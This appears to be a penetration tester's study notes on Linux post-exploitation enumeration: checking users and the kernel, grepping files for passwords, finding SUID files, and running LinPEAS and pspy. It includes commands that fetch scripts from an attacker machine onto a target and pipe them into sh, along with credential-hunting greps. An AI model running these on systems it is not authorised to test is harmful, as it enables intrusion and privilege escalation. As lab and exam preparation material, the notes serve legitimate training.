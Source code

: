 # Linux Enumeration

## Check who you are

```bash
┌──(mac㉿kali)-[~]
└─$ whoami
mac
```

or alternatively use `id` to see more information about your `uid` and which groups you are in:

```bash
┌──(mac㉿kali)-[~]
└─$ id
uid=1000(mac) gid=1000(mac) groups=1000(mac),27(sudo)
```

## Check for other people
Read the `/etc/passwd` file to see a list of users on the box:

```bash
$ cat /etc/passwd
```

Many of these users will relate to certain services, and not be a real person. Look for real users by filtering by those with a real login shell:

```bash
$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
mac:x:1000:1000:Mac,,,:/home/mac:/bin/bash
```

## Check kernel information

```bash
┌──(mac㉿kali)-[~]
└─$ uname -a
Linux kali 5.10.0-kali5-amd64 #1 SMP Debian 5.10.24-1kali1 (2021-03-23) x86_64 GNU/Linux
```

**What does this mean?**

The kernel is a central part of the operating system. This command tells you about the distribution (Kali Linux), the version, and the word size (`x86_64`, i.e. 64-bit)

## Reading all Files
This command concatenates the contents of any readable files in the current working directory:

```bash
$ cat */*
```

It can be combined with a `grep` to look for passwords, for example:

```bash
$ cat */* | grep pass
```

However, it is not particularly efficient on a large number of files - try to use it within a specific directory

## Find Command

Find files by user ownership (from [this post](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions))

```bash
$ find / -user userX
```

Find files by group ownership (from [this post](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group))

```bash
$ find / -group groupX
```
  
Find config files and redirect errors:

```bash
$ find / -name '*.conf' 2>/dev/null
```

Find suid files:

```bash
$ find . -perm /4000
```

Exclude a filename or other query with the `-not` or `!` operator:

```bash
$ find . -not -name "*.exe"

#exclude directories and files beginning with "sys"
$ find /var ! -name "sys*" ! -type d
```

As always, filter your output with `grep` if your find command is not granular enough:

```bash
# anything with "backup" in the name
$ find / -type f | grep backup

#get rid of stuff from /proc and /var/lib
$ find / -user user | grep -v 'proc\|var/lib'

#get rid of error messages (useful if the > operator doesn't work in a shell)
$ find / -user user | grep -v 'Permission denied'
```

You can even use regex in your `find` command with the `-regex` flag:

```bash
$ find ./ ! -regex  '.*\(deb\|vmdk\)$'
```

Or use logical operators like `-o` (logical OR):
```bash
$ find /media/d/ -type f -size +50M ! \( -name "*deb" -o -name "*vmdk" \)
```

(both of the above examples from https://unix.stackexchange.com/questions/50612/how-to-combine-2-name-conditions-in-find#)

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

--

**IMPORTANT UPDATE:** on 22/04/21 @\_superhero1 on twitter revealed they [failed OSCP](https://twitter.com/_superhero1/status/1385206684109447168) because of a linpeas auto exploit regarding sudo tokens. They were eventually awarded the revoked points, but OffSec made it clear they would not be lenient in future. The offending auto exploit feature [was removed](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues/125), but you must make sure you use the [fixed version](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/commit/14601ecd35585537f0fe0041e411ecff0fcd27a8) of LinPeas, which has been [confirmed](https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/) by OffSec to be exam safe.

--

Placing `linpeas.sh` in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Aliases#Useful Aliases|Useful Aliases]] for `enumserve` alias setup instructions.

On attacker machine:

```bash
$ enumserve
```

Find your IP address ([[Linux Networking#Get your IP]])

On target machine:

```bash
$ wget [IP]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

You can also send it directly to `sh`/`bash` if `wget` is not installed:

```bash
$ curl 10.10.14.53:8000/linpeas.sh | sh
```

Sometimes firewall rules may prevent you from accessing port 8000 - try running the server on port 80 if you aren't getting any results (requires root permissions):

```bash
$ sudo python3 -m http.server 80
```

## Standard Directories to Check
```
/home
/var/www
/var/backups
/var/logs
/opt
/usr/share
/usr/share/local
```

## List Processes & Services
List processes:

```bash
$ ps aux
```

Pspy monitoring:

```bash
$ wget [IP]:8000/pspy64
$ chmod +x pspy64
$ ./pspy64
```

List services:

```bash
$ netstat
```

```bash
$ ss -lntp
```

```bash
$ systemctl list-units --type=service --state=running
```

**Why is this useful?**

- It allows you to see what might be running on a system - and therefore what might be a vulnerable process or service
- It gives you clues to the purpose/role of the user or the system
- It may help you identify processes that belong to higher-privileged users